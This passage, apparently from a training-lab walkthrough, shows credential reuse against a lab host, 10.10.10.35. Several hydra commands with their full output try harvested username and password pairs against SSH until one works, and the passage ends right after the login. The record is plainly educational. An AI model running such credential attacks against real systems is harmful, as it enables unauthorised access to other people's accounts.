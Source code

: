 Reuse credentials again against 10.10.10.35:

<pre>
sec504@slingshot:~$ hydra -l falken -p joshua ssh://10.10.10.35
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2019-10-03 14:51:27
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 64 tasks, 1 login try (l:1/p:1), ~0 tries per task
[DATA] attacking service ssh on port 22
1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-10-03 14:51:30
sec504@slingshot:~$ hydra -l peaches -p peaches1 ssh://10.10.10.35
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2019-10-03 14:52:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 64 tasks, 1 login try (l:1/p:1), ~0 tries per task
[DATA] attacking service ssh on port 22
1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-10-03 14:52:12
sec504@slingshot:~$ hydra -l mike -p poor ssh://10.10.10.35
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2019-10-03 14:52:47
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 64 tasks, 1 login try (l:1/p:1), ~0 tries per task
[DATA] attacking service ssh on port 22
1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-10-03 14:52:51
sec504@slingshot:~$ hydra -l paul -p dirt33 ssh://10.10.10.35
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2019-10-03 14:53:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 64 tasks, 1 login try (l:1/p:1), ~0 tries per task
[DATA] attacking service ssh on port 22
1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-10-03 14:53:09
sec504@slingshot:~$ hydra -l bob -p nuggetnugget ssh://10.10.10.35
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2019-10-03 14:53:21
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 64 tasks, 1 login try (l:1/p:1), ~0 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 10.10.10.35   login: bob   password: nuggetnugget
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-10-03 14:53:22
sec504@slingshot:~$ ssh bob@10.10.10.35
The authenticity of host '10.10.10.35 (10.10.10.35)' can't be established.
RSA key fingerprint is SHA256:dGdfRVykLK0nhG5fIDDb9SV7d5tt/3zEk3SkwBOzMzQ.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.35' (RSA) to the list of known hosts.
bob@10.10.10.35's password: 
[bob@barney ~]$ id